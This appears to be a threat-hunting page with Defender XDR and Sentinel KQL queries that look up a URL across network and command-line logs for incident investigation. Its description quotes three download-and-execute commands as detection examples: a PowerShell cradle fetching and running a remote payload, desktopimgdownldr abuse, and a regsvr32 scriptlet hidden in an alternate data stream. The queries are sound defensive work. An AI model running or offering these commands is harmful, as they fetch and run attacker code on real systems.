 # URL Lookup (Network & Commandline)

## Query Information

#### Description
This query can be used to perform a URL lookup on both the DeviceNetworkEvents as well as the commandline references. This can help in incident investigations to quickly find all the related logs and commandline references of the IP address. The *LookupURL* is used to set a URL on which you want to look for. The query has also a setting that you can change to only show commandline results, thent he line *| where CommandLineReference == true* needs to be uncommented. The *LookupURL* can also be a devicename you want to lookup. 

Some examples below are stated, which will be shown based on the commandline lookup. Remote downloads or executions of files can be an indicator of malicious activity.
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr

cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

#### References
- https://andreafortuna.org/2017/11/27/how-a-malware-can-download-a-remote-payload-and-execute-malicious-code-in-one-line/
- https://www.bleepingcomputer.com/news/security/windows-10-background-image-tool-can-be-abused-to-download-malware/
- https://lolbas-project.github.io/lolbas/Binaries/Cmd/

## Defender XDR
```
// Set the URL you are trying to lookup.
// Lookup in this query is done with a contains, if this results in to many false positives add www. before the rest of the url.
let LookupURL = "test.com";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where Timestamp > ago(SearchWindow)
     | where RemoteUrl contains LookupURL
     | project Timestamp, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the URL
let CommandLineReferences = DeviceProcessEvents
     | where Timestamp > ago(SearchWindow)
     | where ProcessCommandLine contains LookupURL
     | project Timestamp, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
// If you do want to have raw logs remove the summarize below.
// CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteIPs = make_set(RemoteIP), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(Timestamp, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteUrl
     | sort by LastMention
)
```
## Sentinel
```
// Set the URL you are trying to lookup.
// Lookup in this query is done with a contains, if this results in to many false positives add www. before the rest of the url.
let LookupURL = "test.com";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where TimeGenerated > ago(SearchWindow)
     | where RemoteUrl contains LookupURL
     | project TimeGenerated, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the URL
let CommandLineReferences = DeviceProcessEvents
     | where TimeGenerated > ago(SearchWindow)
     | where ProcessCommandLine contains LookupURL
     | project TimeGenerated, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
// If you do want to have raw logs remove the summarize below.
// CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteIPs = make_set(RemoteIP), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(TimeGenerated, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteUrl
     | sort by LastMention
)
```
